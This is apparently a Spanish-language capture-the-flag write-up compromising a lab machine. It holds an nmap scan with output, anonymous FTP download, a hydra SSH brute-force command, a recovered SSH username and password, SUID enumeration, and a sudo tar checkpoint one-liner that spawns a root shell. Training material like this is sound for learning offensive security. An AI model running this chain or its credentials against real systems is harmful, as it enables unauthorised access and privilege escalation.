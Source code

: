 ### Scan
```css
sudo nmap -p- --open -sCV -sS --min-rate 3000 -n -vvv -Pn 10.10.211.59
```
### 
```css
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.203.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.59 seconds
```
parece que tenemos conexión con el puerto 21 ftp de manera anónima (anonymous)
### Puerto 21 ftp
```c 
ftp anonymous@10.10.211.59

mget * (descarga todo el contenido en nuestro directorio)
```

### Con los archivos que hemos coseguido vamos a realizar un ataque de fuerza bruta contra el pueto ssh

```css 
	hydra -l <nombre_de_usuario> -P <ruta_al_archivo_de_contraseñas> ssh://<dirección_ip>:22
```

![[2023-10-29_23-17.png]]

### Credenciales ssh
```c
	username: lin
	password: RedDr4gonSynd1cat3
```

# Enumeración básica sistema
```css
	find / -perm -4000 2>/dev/null
```
# Permisos sudo
```css
	sudo -l
```
# Permisos SUID
```css
 /bin/tar
```

### para escalar privilegios con el binario /bin/tar podemos ejecutar el comando (siempre que tengamos permisos sudo con el actual usuario)

```c
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
